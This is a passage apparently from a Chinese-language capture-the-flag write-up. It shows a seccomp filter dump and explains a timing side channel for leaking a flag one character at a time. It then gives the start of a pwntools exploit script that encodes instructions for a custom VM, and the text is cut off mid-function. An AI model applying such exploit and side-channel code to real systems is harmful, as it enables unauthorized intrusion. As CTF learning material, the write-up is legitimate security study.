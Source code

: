 ```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0e 0xc000003e  if (A != ARCH_X86_64) goto 0016
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x0b 0xffffffff  if (A != 0xffffffff) goto 0016
 0005: 0x15 0x09 0x00 0x00000000  if (A == read) goto 0015
 0006: 0x15 0x08 0x00 0x00000002  if (A == open) goto 0015
 0007: 0x15 0x07 0x00 0x00000003  if (A == close) goto 0015
 0008: 0x15 0x06 0x00 0x00000009  if (A == mmap) goto 0015
 0009: 0x15 0x05 0x00 0x0000000a  if (A == mprotect) goto 0015
 0010: 0x15 0x04 0x00 0x0000000b  if (A == munmap) goto 0015
 0011: 0x15 0x03 0x00 0x0000000c  if (A == brk) goto 0015
 0012: 0x15 0x02 0x00 0x0000003c  if (A == exit) goto 0015
 0013: 0x15 0x01 0x00 0x000000e7  if (A == exit_group) goto 0015
 0014: 0x15 0x00 0x01 0x00000101  if (A != openat) goto 0016
 0015: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0016: 0x06 0x00 0x00 0x00000000  return KILL
```

由於沒有 output，所以要找其他方式來 check input 是否正確，而我的方式為，在輸入正確的 flag char 時，會進行一個很長的 for loop comparation，因此結束的時間會比錯誤 flag char 還要慢許多，藉此來判斷當前 char 是否正確，以下為 exploit:

```python
#!/usr/bin/python3

from pwn import *
import datetime

"""
 *rip: 0x3231
 arg1: 0x3 == 0x31 >> 4
 arg2: 0x100 (0x01 << 8) | 0x32 == 0x132
"""

def push_rax():
    return p16(0x0000)

def push_rbx():
    return p16(0x0010)

def pop_rax():
    return p16(0x0020)

def pop_rbx():
    return p16(0x0030)

def mov_rax_val(val):
    return p16(0x0040 | ((val & 0xf00) >> 8) | ((val & 0xff) << 8))

def mov_rbx_val(val):
    return p16(0x0050 | ((val & 0xf00) >> 8) | ((val & 0xff) << 8))

def add_rax_val(val):
    return p16(0x0060 | ((val & 0xf00) >> 8) | ((val & 0xff) << 8))

def sub_rax_val(val):
    return p16(0x0070 | ((val & 0xf00) >> 8) | ((val & 0xff) << 8))

def mov_rax_rsp():
    return p16(0x0080)

def mov_rax_rsp_offval(val):
```